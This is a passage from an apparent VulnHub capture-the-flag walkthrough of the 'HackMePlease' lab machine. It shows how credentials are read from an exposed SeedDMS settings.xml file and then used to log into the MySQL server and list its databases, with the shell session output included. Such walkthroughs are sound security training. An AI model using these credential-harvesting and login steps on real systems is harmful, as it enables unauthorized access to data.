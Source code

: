 	- If we are able to view `settings.xml`, we are able to obtain SQL/SMTP credentials
9. Proceed to `http://192.168.110.7/seeddms51x/conf/settings.xml`
	![](images/Pasted%20image%2020220201014551.png)
	- seeddms:seeddms
	

## TCP/3306 - mysql

1. Access SQL w/ seeddms:seeddms

	```
	┌──(root💀kali)-[~/vulnHub/HackMePlease]
	└─# mysql -h $ip -u seeddms -p
	Enter password: seeddms
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MySQL connection id is 2015
	Server version: 8.0.25-0ubuntu0.20.04.1 (Ubuntu)

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MySQL [(none)]> show databases;
	+--------------------+
	| Database           |
	+--------------------+
	| information_schema |
	| mysql              |
	| performance_schema |
	| seeddms            |
	| sys                |
	+--------------------+
	5 rows in set (0.160 sec)